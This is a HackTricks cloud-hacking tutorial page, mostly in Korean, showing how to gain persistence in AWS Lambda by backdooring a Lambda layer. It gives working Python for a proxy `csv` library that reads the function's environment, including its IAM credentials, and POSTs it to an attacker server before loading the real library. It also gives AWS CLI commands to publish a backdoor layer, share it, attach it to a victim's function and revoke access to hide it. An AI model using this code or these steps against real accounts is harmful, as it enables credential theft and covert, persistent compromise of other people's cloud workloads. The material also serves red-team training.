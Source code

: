 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

Lambda 레이어는 **추가 코드를 포함할 수 있는** .zip 파일 아카이브입니다. 레이어는 라이브러리, [사용자 정의 런타임](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), 데이터 또는 구성 파일을 포함할 수 있습니다.

**함수당 최대 다섯 개의 레이어를 포함할 수 있습니다**. 함수에 레이어를 포함하면 **내용이 실행 환경의 `/opt`** 디렉토리에 추출됩니다.

**기본적으로**, 생성한 **레이어**는 **귀하의 AWS 계정에만 비공개**입니다. 다른 계정과 레이어를 **공유**하거나 레이어를 **공개**할 수 있습니다. 귀하의 함수가 다른 계정에서 게시한 레이어를 사용하는 경우, 귀하의 함수는 **레이어가 삭제된 후에도 해당 레이어 버전을 계속 사용할 수 있으며, 레이어에 대한 접근 권한이 취소된 후에도 사용할 수 있습니다**. 그러나 삭제된 레이어 버전을 사용하여 새 함수를 생성하거나 함수를 업데이트할 수는 없습니다.

컨테이너 이미지로 배포된 함수는 레이어를 사용하지 않습니다. 대신, 이미지를 빌드할 때 선호하는 런타임, 라이브러리 및 기타 종속성을 컨테이너 이미지에 패키징합니다.

### Python load path

Python이 lambda에서 사용할 로드 경로는 다음과 같습니다:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Check how the **second** and third **positions** are occupy by directories where **lambda layers** uncompress their files: **`/opt/python/lib/python3.9/site-packages`** and **`/opt/python`**

{% hint style="danger" %}
If an attacker managed to **backdoor** a used lambda **layer** or **add one** that will be **executing arbitrary code when a common library is loaded**, he will be able to execute malicious code with each lambda invocation.
{% endhint %}

따라서 요구 사항은 다음과 같습니다:

* **피해자의 코드**에 의해 **로드되는 라이브러리** 확인
* **사용자 정의 코드**를 **실행하고 원래** 라이브러리를 **로드하는 lambda layers**로 **프록시 라이브러리** 생성

### Preloaded libraries

{% hint style="warning" %}
When abusing this technique I found a difficulty: Some libraries are **already loaded** in python runtime when your code gets executed. I was expecting to find things like `os` or `sys`, but **even `json` library was loaded**.\
In order to abuse this persistence technique, the code needs to **load a new library that isn't loaded** when the code gets executed.
{% endhint %}

With a python code like this one it's possible to obtain the **list of libraries that are pre loaded** inside python runtime in lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
그리고 이것은 **목록**입니다 (이미 `os` 또는 `json`과 같은 라이브러리가 있는지 확인하십시오)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
그리고 이것은 **람다에 기본적으로 설치된 라이브러리** 목록입니다: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer Backdooring

이 예제에서는 타겟 코드가 **`csv`**를 임포트한다고 가정해 보겠습니다. 우리는 **`csv` 라이브러리의 임포트를 백도어**할 것입니다.

이를 위해, 우리는 **`/opt/python/lib/python3.9/site-packages`** 경로에 **`__init__.py`** 파일이 있는 **csv** 디렉토리를 **생성**할 것입니다.\
그런 다음, 람다가 실행되고 **csv**를 로드하려고 할 때, 우리의 **`__init__.py` 파일이 로드되고 실행될 것입니다**.\
이 파일은 다음을 수행해야 합니다:

* 우리의 페이로드를 실행
* 원래의 csv 라이브러리 로드

우리는 다음을 통해 두 가지를 모두 수행할 수 있습니다:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
그런 다음, 이 코드를 **`python/lib/python3.9/site-packages/__init__.py`** 경로에 넣고 zip 파일을 생성한 후, 이를 lambda layer로 추가합니다.

이 코드는 [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)에서 찾을 수 있습니다.

통합된 페이로드는 **첫 번째 호출 시 또는 lambda 컨테이너가 리셋된 후 IAM 자격 증명을 서버로 전송합니다** (코드 변경 또는 콜드 람다), 그러나 **다음과 같은 다른 기술**도 통합될 수 있습니다:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### 외부 레이어

**외부 계정의 lambda layers를 사용할 수 있다는 점에 유의하십시오.** 또한, lambda는 권한이 없더라도 외부 계정의 레이어를 사용할 수 있습니다.\
또한 **lambda가 가질 수 있는 최대 레이어 수는 5개입니다.**

따라서 이 기술의 다재다능성을 향상시키기 위해 공격자는 다음과 같은 방법을 사용할 수 있습니다:

* 사용자의 기존 레이어에 백도어를 설치합니다 (외부는 없습니다)
* **자신의 계정에** **레이어**를 **생성**하고, **희생자 계정에** 레이어 사용 권한을 부여한 후, **희생자의 Lambda에** **레이어를 구성**하고 **권한을 제거**합니다.
* **Lambda**는 여전히 **레이어를 사용할 수 있으며** **희생자는** **레이어 코드를 다운로드할 수 있는 쉬운 방법이 없습니다** (람다 내부에서 rev shell을 얻는 것을 제외하고)
* 희생자는 **`aws lambda list-layers`**를 사용하여 **외부 레이어를 볼 수 없습니다**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
